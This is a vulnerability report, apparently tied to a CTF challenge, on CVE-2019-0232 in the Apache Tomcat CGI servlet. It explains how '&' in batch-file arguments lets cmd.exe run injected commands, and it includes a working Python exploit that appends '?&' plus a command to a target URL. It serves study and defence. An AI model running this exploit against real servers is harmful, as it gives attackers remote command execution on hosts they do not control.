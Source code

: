 <div align="center"><h1>CVE-2019-0232 REPORT</h1></div>

## About the vulnerability

Apache Tomcat's CGI servlet, on Windows, for the below versions, is vulnerable to RCE due to a bug in how JRE passes arguments to Windows cmd.

**On versions:** Apache Tomcat 7.0.0 to 7.0.93, 8.5.0 to 8.5.39 and 9.0.0.M1 to 9.0.17

**Pre-requisites:** CGI option enableCmdLineArguments enabled in web.xml for Apache Tomcat. This enables the CGI servlet feature. Atleast one batch file to be present in the cgi directory.

## Explanation

This vulnerability exploits the way JRE passes arguments to the Windows cmd which in turn is a feature only available in Windows cmd. Windows cmd.exe takes a string line as argument for all command line arguments to any program instead of tokenizing it into an array of strings. Any program (eg. abc.bat) run in cmd is run in a `cmd.exe` environment as `C:\Windows\system32\cmd.exe /c "abc.bat"`

Arguments passed to the batch file under `"`, its characters are copied to the new command line as it is ignoring all other meta characters until the next `"` is encountered. So a command like `abc.bat "&dir"` is translated to `C:\Windows\system32\cmd.exe /c "abc.bat "&dir""`

The metacharacter `&` in the above translation is read as a separator as cmd.exe thinks it is out of the scope of `"`. Hence, `dir` is executed after `abc.bat`. After `&` any malicious code can be injected and executed. The regex pattern accepted by JRE includes such separators like `&` and hence the above vulnerability is triggered and RCE can be obtained.

## Exploit

```
#!/usr/bin/python
import requests
from urllib.parse import quote
def rce(url): #applies get request for the crafter url
    r = requests.get(url)
    print(r.content.decode("utf-8"))

targetURL = input('enter target url : ') # e.g. '192.168.43.249:8080/cgi-bin/auxiliary.bat'

url = 'http://' + targetURL + '?&'
payload_cmd = 'C:/Windows/System32/tasklist'
rce(url+quote(payload_cmd))
```
[Exploit on github](https://github.com/yash-bansod/Techmeet21-SAPTANG/blob/chall5/chall5/exploit_CVE-2019-0232.py)

This exploit was tested on Apache Tomcat 7.0.69 with JDK7 and allows RCE on the Apache Tomcat Server.

## Proof of Concept

[PoC video](https://www.youtube.com/watch?v=eXD1Mxmacco)
